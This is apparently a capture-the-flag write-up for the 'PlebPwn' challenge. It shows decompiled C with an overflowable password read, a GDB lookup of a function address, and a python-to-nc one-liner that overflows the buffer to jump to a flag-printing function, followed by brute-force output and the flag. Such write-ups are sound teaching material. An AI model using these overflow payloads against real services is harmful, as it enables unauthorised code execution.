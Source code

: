 # PlebPwn

### Challenge
> Please pwn my plebian password program!
> Please connect to 128.199.98.78:1700 

### Solution
Firstly, I'll use Hopper to decompile the binary file. We see `print_me` and `check_password` functions which are related to what we want.

	int check_password() {
	    asm { rep stosd  dword [edi], eax };
	    printf("Please enter the password: ");
	    read(0x0, &var_4C, 0x80);
	    esp = ((esp - 0x10) + 0x10 - 0x10) + 0x10;
	    if ((var_4C & 0xff) != 0x0) {
	            eax = strcmp("great_password_friend", &var_4C);
	            eax = (eax == 0x0 ? 0x1 : 0x0) & 0xff;
	    }
	    else {
	            eax = 0x0;
	    }
	    return eax;
	}

	void print_me() {
	    system("/bin/cat /flag");
	    return;
	}

I tried `great_password_friend`, but it wasn't the flag. `:(` Let's continue...
Immediately, we can see that check_password can be attacked using buffer overflow.
Use GDB to find the address of the `print_me` function.

	(gdb) break print_me
	Breakpoint 1 at 0x8048551

Rearranging the address for little endian stack, we get this:

	python -c "print 'A'*80 + '/x4b/x85/x04/x08'" | nc 128.199.98.78 1700 

I am not sure of the buffer length, so I'll bruteforce it from 1 to an arbitrary number, 140.
(See [bruteforce-buffer-overflow.sh](bruteforce-buffer-overflow.sh))

Originally, I was filling the buffer with 'A's but the program seems to be crashing (not showing `Incorrect!` after certain lengths).
Long story short, we have to replace it with null characters `\x00` to prevent the memory addresses from being invalid as 0x41414141

	Please enter the password: Doing 79
	Please enter the password: Doing 80
	Please enter the password: CrossCTF{av01d_th0s3_cr4sh3s}
	Doing 81
	Please enter the password: Doing 82

Around the 80th iteration, the flag is printed: `CrossCTF{av01d_th0s3_cr4sh3s}`